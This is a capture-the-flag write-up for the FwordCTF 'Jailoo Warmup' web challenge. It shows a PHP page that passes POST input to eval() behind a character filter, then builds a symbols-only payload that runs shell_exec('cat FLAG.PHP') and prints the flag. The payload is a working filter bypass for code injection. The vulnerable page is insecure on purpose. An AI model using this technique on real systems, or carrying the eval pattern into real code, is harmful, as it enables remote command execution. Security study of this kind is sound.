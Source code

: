 # web / JAILOO WARMUP

> Points: 442

## Question

> Read the flag in `FLAG.PHP`. \
> https://jailoowarmup.fword.wtf

## Solution

We are given the contents of `jailoo.php`.

```php
<?php
    if(sizeof($_REQUEST)===2&& sizeof($_POST)===2){
    $cmd=$_POST['cmd'];
    $submit=$_POST['submit'];
    if(isset($cmd)&& isset($submit)){
        if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
            echo "<div class=\"success\">Command executed !</div>";
            eval($cmd);
        }else{
            die("<div class=\"error\">NOT ALLOWED !</div>");
        }
    }else{
        die("<div class=\"error\">NOT ALLOWED !</div>");
    }
    }else if ($_SERVER['REQUEST_METHOD']!="GET"){
        die("<div class=\"error\">NOT ALLOWED !</div>");
    }
     ?>
```

The `preg_match_all` is enforcing that commands can only contain the characters
`$()_[]=;+."`. An undocumented restriction on `preg_match_all` is also that the input
can be a maximum of 2048 characters long.

PHP has a weird quirk where you can call strings as builtin functions. For example,
the top line of the above PHP file could have been `if ( ('sizeof')($_REQUEST) === 2 )`.
This means that if we can construct arbitrary strings, we can write arbitrary PHP.
We can concatenate strings with `.`, so we only need arbitrary characters.

Taking inspiration from [PHPFuck](https://splitline.github.io/PHPFuck/), we can use the
primitive empty array `[]` and string `""` to generate a few things.

1. `"" == 0`, a useful primitive.
1. `([]==[]) === true == 1`, from this we can get any number by stringing together
  a bunch of `([]==[])+([]==[])+...`'s.
1. `([].[]) === "ArrayArray"`, using this and our numbers, we can extract the characters
  `([].[])[""] === "A"` and `([].[])[([]==[])+([]==[])+([]==[])] === "a"`.
1. The underscore is the only valid variable name character we have (`$_`, `$__`, etc),
  and incrementing a character moves up the sorting order, so `$_="A";$_++;`
  will put `"B"` in `$_`.
1. `('chr')(32) === " "` to get the space character.
1. From this, we can now construct arbitrary strings.

Originally planning to `var_dump(file_get_contents("FLAG.PHP"))`, this turned out to be too long.
We managed to make it work using `var_dump(shell_exec("cat FLAG.PHP"))` with this payload:

```php
$_=([].[])[""];$__=$_;$_++;$_++;$_++;$_++;$_++;$___=$_;$_++;$____=$_;$_++;$_____=$_;$_++;$_++;$_++;$_++;$______=$_;$_++;$_++;$_++;$_++;$_______=$_;$_=([].[])[(""=="")+(""=="")+(""=="")];$________=$_;$_++;$_++;$_________=$_;$_++;$__________=$_;$_++;$___________=$_;$_++;$_++;$_++;$____________=$_;$_++;$_++;$_++;$_++;$_____________=$_;$_++;$______________=$_;$_++;$_++;$_++;$_______________=$_;$_++;$_++;$________________=$_;$_++;$_________________=$_;$_++;$__________________=$_;$_++;$___________________=$_;$_++;$____________________=$_;$_++;$_++;$_____________________=$_;($____________________.$________.$________________."_".$__________.$___________________.$______________.$_______________)(($_________________.$____________.$___________.$_____________.$_____________."_".$___________.$_____________________.$___________.$_________)($_________.$________.$__________________.($_________.$____________.$________________)((""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")).$___.$______.$__.$____.".".$_______.$_____.$_______));
```

Or prettified a little:

```php
$_=([].[])[""]; # A
$__=$_; # Store A
$_++;$_++;$_++;$_++;$_++;$___=$_; # Store F
$_++;$____=$_; # Store G
$_++;$_____=$_; # Store H
$_++;$_++;$_++;$_++;$______=$_; # Store L
$_++;$_++;$_++;$_++;$_______=$_; # Store P
$_=([].[])[(""=="")+(""=="")+(""=="")]; # a
$________=$_; # Store a
$_++;$_++;$_________=$_; # Store c
$_++;$__________=$_; # Store d
$_++;$___________=$_; # Store e
$_++;$_++;$_++;$____________=$_; # store h
$_++;$_++;$_++;$_++;$_____________=$_; # store l
$_++;$______________=$_; # store m
$_++;$_++;$_++;$_______________=$_; # store p
$_++;$_++;$________________=$_; # store r
$_++;$_________________=$_; # store s
$_++;$__________________=$_; # store t
$_++;$___________________=$_; # store u
$_++;$____________________=$_; # store v
$_++;$_++;$_____________________=$_; # store x
# var_dump
($____________________.$________.$________________."_".$__________.$___________________.$______________.$_______________)(
  # shell_exec
  ($_________________.$____________.$___________.$_____________.$_____________."_".$___________.$_____________________.$___________.$_________)(
    # "cat"
    $_________.$________.$__________________ .
    # chr(32) = " "
    ($_________.$____________.$________________)(
      (""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+
      (""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+
      (""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+
      (""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")+(""=="")
    ) .
    # "FLAG.PHP"
    $___.$______.$__.$____.".".$_______.$_____.$_______
  )
);
```

Running this and checking the HTML shows:

```html
<div class="success">Command executed !</div>
string(70) "<?
$flag="FwordCTF{Fr0m_3very_m0unta1ns1d3_l3t_fr33d0m_r1ng_MLK}";
?>
"
```

### Flag

`FwordCTF{Fr0m_3very_m0unta1ns1d3_l3t_fr33d0m_r1ng_MLK}`
